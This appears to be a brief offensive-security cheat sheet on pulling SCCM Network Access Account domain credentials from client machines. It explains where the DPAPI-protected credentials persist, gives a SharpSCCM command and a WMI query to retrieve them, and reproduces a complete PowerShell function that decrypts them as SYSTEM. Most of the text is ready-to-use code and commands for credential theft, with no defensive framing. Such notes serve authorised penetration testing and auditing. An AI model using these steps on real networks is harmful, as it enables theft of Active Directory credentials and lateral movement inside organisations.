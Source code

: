 # SCCM
 - SharpSCCM: https://github.com/Mayyhem/SharpSCCM    
 
 ## Network Access Account
 Active Directory domain accounts used by systems that are not joined to AD.   
 SCCM deploys a so called "Network Access Account" to the workstations, which is used to access network shares. Pushed to every SCCM client in machine policy   
 Credentials are stored locally on clients as DPAPI blobs protected by the system's masterkey   
 - Retrievable via WMI as a privileged user
 - Remain in CIM repository (C:\Windows\System32\Wbem\Repository\OBJECTS.DATA) *after client is uninstalled or account rotation*

### NAA Creds
Retrieve and decrypt Network Access Account domain credentials from an SCCM client:   
`SharpSCCM.exe local naa wmi`   
WMI Query:   
`select * from CCM_NetworkAccessAccount`   

*Decrypt Credentials*   
The credentials can be extracted over DPAPI calls with the NT/SYSTEM user.   

```
# Source: https://github.com/rzander/sccmclictrlib/blob/46640553235664bf2da45dc7f6e1f09628a497b0/sccmclictr.automation/Properties/Resources.resx
function UnProtect-PolicySecret {
<#
    .SYNOPSIS
    Decrypts policy secrets (c) 2016 by Mattias Benninge
 
    .DESCRIPTION
    The UnProtect-PolicySecret CmdLet takes a encrypted string and returnsthe decrypted sting.
     
    .NOTES
    This function must be run under the local system account on the computer that encrypted the data.
   
    .EXAMPLE
    UnProtect-PolicySecret -data "F600000001000000D08C9DDF0115D1118C7A00C04FC297EB010000006AF233F693"
 
    .PARAMETER Data
    [String] Encrypted data
#>
 
    [CmdletBinding()]
    PARAM (
        [Parameter(Position=0,Mandatory=$true,HelpMessage="Encrypted sting",ValueFromPipeline=$true)][Alias("Data")][String] $strData
    )
                              
    # Chop string up into bytes, and drop the first 4 bytes
    [System.Byte[]]$byteData = New-Object System.Byte[] $($strData.length / 2 - 4)
    for ($i = 0; $i -lt (($strData.length / 2) - 4); $i++)
    {
        $byteData[$i] = [System.Convert]::ToByte($strData.substring(($i + 4) * 2, 2),16)
    }
 
    #Add the security type assembly
    Add-Type -AssemblyName System.Security
             
    #Decrypt the data
    $bytePlainText = [System.Security.Cryptography.ProtectedData]::Unprotect($byteData , $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
 
    return $([System.Text.UnicodeEncoding]::Unicode.GetString($bytePlainText))
}
```
